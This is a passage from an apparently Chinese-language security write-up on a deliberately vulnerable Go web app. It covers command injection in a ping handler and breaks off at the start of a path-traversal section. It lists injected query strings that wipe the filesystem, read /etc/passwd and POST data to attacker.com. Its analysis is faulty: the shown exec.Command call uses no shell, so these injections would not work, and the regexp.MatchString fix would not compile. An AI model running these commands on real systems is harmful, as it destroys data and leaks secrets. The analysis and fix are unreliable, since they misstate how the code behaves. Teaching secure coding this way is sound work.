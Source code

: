 ### 漏洞代码位置
```go
// 第11-12行：不安全的命令执行
host := r.URL.Query().Get("host")
cmd := exec.Command("ping", "-c", "1", host)
```

### 存在的问题
- 直接将用户输入作为系统命令参数
- 未对命令参数进行验证和过滤
- 未限制命令执行的范围

### 攻击示例
```
/ping?host=google.com;rm -rf /*
/ping?host=google.com && cat /etc/passwd
/ping?host=;curl -X POST http://attacker.com/data
```

### 潜在危害
- 执行恶意系统命令
- 文件系统被破坏
- 敏感信息泄露
- 系统被远程控制

### 解决方案
```go
// 使用白名单验证主机名
func isValidHostname(hostname string) bool {
    return regexp.MatchString(`^[a-zA-Z0-9][a-zA-Z0-9\-\.]+[a-zA-Z0-9]$`, hostname)
}

// 限制命令执行
if !isValidHostname(host) {
    http.Error(w, "Invalid hostname", http.StatusBadRequest)
    return
}
```

## 3. 路径遍历漏洞 (`path_traversal.go`)

### 漏洞代码位置
```go
// 第13-14行：不安全的文件路径构建
filename := r.URL.Query().Get("file")
filePath := filepath.Join("files", filename)

// 第31行：不安全的目录权限
os.MkdirAll("files", 0777)
```
